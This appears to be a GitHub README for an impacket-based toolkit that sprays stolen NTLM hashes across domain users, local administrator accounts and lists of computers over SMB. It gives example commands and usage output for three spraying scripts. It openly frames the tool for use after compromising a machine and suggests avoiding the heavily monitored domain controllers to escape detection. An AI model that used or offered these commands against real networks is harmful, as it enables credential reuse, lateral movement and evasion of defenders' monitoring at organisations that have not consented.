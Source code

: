 # HashSpray.py

Got hashes from a compromised machine and want to test if the password hash have been reused over multiple accounts? Get a userlist and spray with this tool with -hashes parameter and with the -target-ip pointing at ANY domain joined computer. You dont need to spray the heavy monitored domain controllers, authenticated users will have access to the IPC$ share by default.


This was built using the impacket library

```
python domainspray.py -userlist users -hashes :1uca3d1bd1a33geb1b15bab12196r5aa -target-ip 192.168.5.1


Active Directory Spraying Toolkit

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -userlist userlist    List of users to spray, format is [[domain/]username
  -password password    Clear-text password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. This may be any be
                        any domain joined computer or a domain controller
  -port [destination port]
                        Destination port to connect to SMB Server
```


```
python localspray.py -computerlist ./computers.txt -username administrator -hashes :1uca3d1bd1a33geb1b15bab12196r5aa 


Local User Spraying Toolkit

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -computerlist computerlist
                        List of computers to spray
  -username username    Username
  -password password    Clear-text password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -port [destination port]
                        Destination port to connect to SMB Server
```


```
python adminspray.py -computerlist ./computers.txt -username cube0x0 -hashes :1uca3d1bd1a33geb1b15bab12196r5aa 


Discover Local Admin Access Spraying Toolkit

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -computerlist computerlist
                        List of computers to spray
  -username username    Username
  -password password    Clear-text password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -port [destination port]
                        Destination port to connect to SMB Server
```